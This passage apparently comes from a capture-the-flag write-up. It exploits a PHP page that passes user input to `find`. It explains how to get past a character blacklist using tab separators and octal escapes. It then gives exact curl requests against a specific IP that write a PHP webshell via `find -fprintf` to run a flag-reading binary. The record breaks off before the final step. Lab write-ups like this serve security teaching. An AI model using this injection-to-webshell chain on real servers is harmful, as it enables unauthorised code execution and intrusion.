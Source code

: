 **Root cause:** executing `find` with user-supplied arguments over a web-exposed filesystem that is writable by the web server. No sanitization prevents use of `-fprintf` with format escapes.

**Reproduction / PoC:** use `-fprintf` with an octal-escaped format string. Care must be taken to preserve backslashes through the shell; passing the format inside single quotes prevents the shell from stripping backslashes before `find` sees them.

---

## Exploitation — full chain (step-by-step)

### What we wanted / constraints

- Cannot use `;`, `|`, `$`, `(`, `)`, `+` or space in the `cmd` parameter — these are blacklisted by PHP.
- Tab `%09` can be used as an argument separator.
- `/readflag` required the exact parameter: `i want the flag please`.

### Steps

1. **Confirm webroot writable**
    
    ```bash
    curl 'http://161.97.155.116:8888/?cmd=/var/www/html%09-maxdepth%091%09-writable%09-ls'
    
    ```
    
    Output showed `/var/www/html` owned by `www-data` and writable.
    
2. **Craft a small PHP webshell to execute arbitrary commands**
    
    The final shell used `echo \`/readflag i want the flag please``within PHP, because using backticks avoids introducing`$`or`[ ``]`or parentheses in the web-facing request. The shell content we wanted in`/var/www/html/p.php`:
    
    ```php
    <?php echo `/readflag i want the flag please`; ?>
    
    ```
    
3. **Write the PHP file using `find -fprintf` with octal escapes and single quotes**
    
    We must ensure the octal backslashes reach `find` intact, so we wrap the format argument in single quotes (single quotes are not blacklisted). Below is the exact request used to write the webshell file (note tabs `%09` between `find` arguments):
    
    ```bash
    curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%090%09-fprintf%09/var/www/html/p.php%09%27%5C074%5C077php%5C040echo%5C040%5C140/readflag%5C040i%5C040want%5C040the%5C040flag%5C040please%5C140%5C073%5C040%5C077%5C076%27'
    
    ```
    
    Breakdown:
    
    - `%09` are tabs (argument separators).
    - The final argument is a single-quoted string containing octal escapes (e.g. `\074` → `<`, `\040` → space, `\140` → backtick, etc.). The single quotes ensure the shell does not consume the backslashes before `find` sees them.
4. **Invoke the webshell to run `/readflag` with its exact argument**
    